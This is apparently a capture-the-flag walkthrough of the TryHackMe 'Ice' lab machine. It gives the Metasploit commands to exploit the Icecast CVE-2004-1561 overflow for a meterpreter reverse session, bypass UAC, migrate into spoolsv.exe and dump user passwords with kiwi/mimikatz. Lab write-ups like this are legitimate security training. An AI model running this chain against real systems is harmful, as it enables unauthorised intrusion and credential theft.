 # ICE TryHackMe Machine
## 1. Recon
```
nmap -sV <machine ip>
```
search for vulnerablilites on CVE <br>
found vulnerability execute code overflow CVE-2004-1561

## 2. Exploiting
```
msfconsole
search icecast
use 0
set LHOST <your ip>
set RHOST <victim ip>
run
```
We succesfully pwned the machine and opened a meterpreter connection <br>

## 3. privilege escalation

```
run post/multi/recon/local_exploit_suggester
```
this script suggested plenty exploits that can be used against this machine <br>
we used the exploit exploit/windows/local/bypassuac_eventvwr
```
bg
use exploit/windows/local/bypassuac_eventvwr
set LHOST <your ip>
run
```
this spawns a meterpreter session that has administrator privileges <br>
```
ps
migrate -N spoolsv.exe
```
this migrates our process to a process which has more privileges. <br>
now we load the mimikatz or kiwi module to steal the passwords of the users
```
load kiwi
creds_all
```
this reveals the password of the user "Dark" which is Password01! <br>
with this we clear the ice room.

